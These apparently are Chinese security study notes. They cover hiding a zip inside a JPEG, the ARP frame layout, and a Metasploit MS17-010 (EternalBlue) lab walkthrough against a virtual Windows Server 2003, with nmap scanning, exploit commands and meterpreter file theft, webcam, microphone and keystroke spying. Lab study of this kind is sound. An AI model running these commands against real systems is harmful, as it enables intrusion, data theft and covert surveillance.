1. 创建一个txt文本文档，输入想要传送的文本（以在E盘创建test.txt为例），
并在相同目录放入一张普通的图片（以a.jpg为例）；
2. 利用压缩软件将该文本文档压缩为zip压缩包（test.zip）；
3. 打开命令提示符（cmd），输入copy命令：
E:
copy /b a.jpg+test.zip a.jpg
无任何提示即操作成功
4. 打开a.jpg，仍可查看原图片。打开压缩软件，选择“文件-打开”打开该图片，则显示test.txt。
实际操作时，隐写的载体与内容不限。经测试，文本文档，图片，音视频等均可。
* 1~6 ff ff ff ff ff ff，即广播所有终端
* 7~12 发送者的硬件(mac)地址
* 13~14 类型特征码 ARP:0x0806
* 15~16 硬件类型 以太网:0x0001
* 17~18 IP协议版本 IPv4:0x0800
* 19 硬件地址长度 6
* 20 协议地址长度 4
* 21~22 广播帧类型 request:0x0001 reply:0x0002
* 23~28 发送者的硬件(mac)地址
* 29~32 发送者的IP地址
* 33~38 解析目标的硬件(mac)地址 这个是解析的目标
* 39~42 想要解析的IP地址
1.Metasploit是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。
2.此次采用kali Linux系统集成的metasploit进行测试验证MS17-010（永恒之蓝，著名比特币勒索漏洞）。实验环境均采用虚拟机。
Kali Linux：192.168.0.125
Windows Server 2003：192.168.0.115

1.先使用nmap探测网络中存活主机（设备）
nmap -sP 192.168.0.0/24
或使用netdiscover -i eth0 -r 192.168.0.0/16
2.探测网络中的系统类型(nmap) nmap -O 192.168.0.0/24

3.端口扫描 nmap -p 1-1024 192.168.0.115

端口介绍：
21：ftp
80：http
135：服务dcom、rpc的端口----客户机连入系统服务
139：netbios文件打印共享服务—共享磁盘
445：文件夹共享、打印共享服务
4. 利用server 2003自身漏洞(ms17-010)进行入侵
前提：Windows server 2003 需要关闭防火墙；入侵前必须初始（msfdb init）、启动数据库（msfdb start）。
msfdb status 查看数据库状态
检测Windows server 2003是否存在ms17-010漏洞 nmap --script=smb-vuln*.nse 192.168.0.115
msfconsole 准备入侵工具

打开之后会显示
msf5 >
中间的图案是随机的，每次都不一样。
msf5 > search ms17_010 搜索漏洞入侵模块
msf5 > use windows/smb/ms17_010_psexec 使用这个模块

msf5 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.0.115设置攻击目标的IP地址
msf5 exploit(windows/smb/ms17_010_psexec) > run 运行入侵模块
注意：安装SQL server 2008时需要卸载Powershell相关的所有更新，否则会因为漏洞被修补而入侵失败！（下图为入侵失败照片）

若出现
meterpreter >
，则证明入侵成功。

meterpreter十分强大，可以在对方机器无任何提示的情况下运行很多命令，其中shell可以直接运行windows的命令提示符（相当于cmd）
入侵结束。下面是测试环节：
1. 文件。我们在windows server 2003的C:处创建一个test.txt。

利用cat命令可以读取文件
利用edit命令可以调用vim修改文件
利用download命令可以下载文件，利用mkdir可以创建目录，利用rm可以删除文件或目录，利用cp复制文件，利用mv移动文件，利用execute运行文件等等。

2.数据库。需要用到命令提示符，使用shell命令调用。
利用sql命令创建一个叫test的数据库

在Windows Server 2003中创建表test_1，并插入两条数据。
在kali上进行SQL查询操作，可以查询到刚刚创建的数据。

也可以进行添加，修改，删除操作。
 


3.系统操作。比如在cmd命令中停止一个正在运行的进程。
在meterpreter中使用screenshot截图。

或者远程播放音乐（play），打开摄像头（webcam_list），录音（record_mic），获取系统级权限（getsystem），监听键盘鼠标操作或者远程操控键盘鼠标，利用kill强制停止进程，利用shutdown关机，利用reboot重启等。 <完>